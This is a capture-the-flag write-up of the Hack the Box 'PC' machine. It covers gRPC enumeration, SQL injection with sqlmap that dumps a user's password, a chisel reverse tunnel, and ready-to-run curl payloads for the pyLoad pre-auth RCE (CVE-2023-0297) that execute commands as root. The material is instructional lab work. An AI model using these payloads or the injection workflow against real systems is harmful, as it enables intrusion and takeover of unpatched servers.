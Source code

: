 +++
author = "Nick"
categories = ["hack the box", "Easy", "Linux"]
date = 2023-04-29T11:00:00.000Z
publishDate = 2023-04-29T11:00:00.000Z
description = " "
summary = ""
draft = false
slug = "hack-the-box-pc"
tags = ["hack the box", "Easy", "Linux", "grpc", "SQL Injection", "RCE", "pyload", "grpcui", "grpcurl"]
title = "Hack the Box - PC"
url = "/hack-the-box-pc"
thumbnail = "/images/pc/logo.png"
+++

Welcome back! Today we are going to be doing the Hack the Box machine - PC. This is listed as an easy Linux machine. Let's get started!

As usual, we start with a `rustscan` of the target, here are the results:


```
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown syn-ack
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.93SVN%I=7%D=8/17%Time=64DE285C%P=x86_64-unknown-linux
SF:-gnu%r(NULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\
SF:xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r
SF:(GenericLines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xf
SF:f\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")
SF:%r(GetRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xf
SF:f\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")
SF:%r(HTTPOptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(RTSPRequest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(RPCCheck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xf
SF:f\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")
SF:%r(DNSVersionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff
SF:\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\
SF:0\0\0\?\0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x0
SF:4\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x
SF:04\x08\0\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0
SF:\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\
SF:0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x
SF:04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\
SF:x04\x08\0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x
SF:04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\
SF:x04\x08\0\0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Well, this is a much more interesting result than usual. So poking around the port and doing some research on it, leads us to a `gRPC Service`. So, we [download `gprcurl`](https://github.com/fullstorydev/grpcurl). Now we need to get some information about the service. We can issue `./grpcurl -plaintext 10.129.229.30:50051 describe`.

![](/images/pc/pc1.png)

Now we can see what services are available to us. So right off the bat we try to use `.getInfo` but are told we need to authorize.

![](/images/pc/pc2.png)

So, we register a user with the supplied `.RegisterUser` method. We send it blank to see what it expects.

![](/images/pc/pc3.png)

We know it expect `json` most likely in a `user:password` format. Attempting just that we are told, we need to supply a strong password again. Implying that `username` and `password` are they're own entries.

![](/images/pc/pc4.png)

We are able to register an account with `/grpcurl -plaintext -d '{"username": "test", "password": "test"}' 10.129.229.30:50051 SimpleApp.RegisterUser`. Next we need to use the `.LogIn` method: `./grpcurl -plaintext -d '{"username": "test", "password": "test"}' 10.129.229.30:50051 SimpleApp.LoginUser`.

![](/images/pc/pc5.png)

We see we get back an `id` as well as a `token`. Now at this point I wasn't able to make more headway using `grpcurl`. I continued to look for additional resources, this is when I switched over to `[grpcui](https://github.com/fullstorydev/grpcui)`. I was able to navigate the options much better using this tooling. To install this you need to install `golang` then install the module via `go` - `go install github.com/fullstorydev/grpcui/cmd/grpcui@latest`. You can then find the compiled binary in `~/kali/go/bin`. Once that's all done you have a nice interface into the `gRPC` interface.

![](/images/pc/pc6.png)

Now with this installed, I created a new user and sent the `token` plus `id` to the server. The response was... boring.

![](/images/pc/pc7.png)

Well, we've used all the methods here with nothing standing out. Time to dig a bit further into what's within this request stack. We load the `grpcui` page into `burpsuite` and re-create all the requests. Re-inspecting the requests let's us send them to `repeater` for better tampering. The `.getInfo` request is ideally the starting point due to the `id` field. Often this can be a good `IDOR` indicator. So, we change the `id` field to `0` then `1` and we get two interesting responses.

![](/images/pc/pc8.png)
![](/images/pc/pc9.png)

The second request - `id:1` - seems a little bit suspect, quite possibly a vulnerable entry. Some basic `SQL Injections` give the same response. So instead of hand testing this field, we can feed it over to `sqlmap`. We make a `req.txt` file with our `HTTP` request in it. We then load it into `sqlmap` with the `-r` command.

`sqlmap -r req.txt --batch -a --dump-all`

In this case, `--dump-all` is sorta lazy but it works for this scenario. It runs and finds us a `username` and `password`.

![](/images/pc/pc10.png)

Now we have `sau:HereIsYourPassWord1431`, let's try to `ssh` with these credentials. It works and we're in! We snag the `user.txt` flag and start enumerating internally.

![](/images/pc/user.png)

We copy over `linpeas` and `pspy` and see what they find. While those run we poke around manually to see what might be available to us. One of the first things that comes back is that there is something running on port `8000`. When we `curl` it we see that it redirects to a login page. So we copy over `chisel` and set up our `server` and `client`

Our machine: `./chisel server --reverse --port 7070`
Compromised machine: `./chisel client 10.10.14.2:7070 R:8000:127.0.0.1:8000`

Now, when we check `127.0.0.1:8000` locally, we see `pyLoad` page being displayed.\

![](/images/pc/pc11.png)

Tried the `sau` password, no dice. Tried some basic `admin` and the default of `pyload`:`pyload`. Doing some more digging we see that there is a `[Pre-Auth RCE](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad)` in the software. So we test the `PoC` provided out.

Command:
```
/var/opt$ curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'
```

![](/images/pc/pc12.png)

Sure enough, it worked.

So in this case, we'll craft a simple command to copy over the `root.txt` file to `/tmp` then we'll `chown` it and we should have our flag!

Command:
`curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"cp%20/root/root.txt%20/tmp/r.txt\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'`

![](/images/pc/pc13.png)

Command:
`curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"chown%20sau%20/tmp/r.txt\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'`

![](/images/pc/pc14.png)

Now we can simply `cat` `r.txt` and get our `root.txt` flag!

![](/images/pc/pc15.png)

I you could also do something like spawning a reverse shell or maybe even `suid` bit on `bash` but this was easier and faster :D. Another one bites the dust!
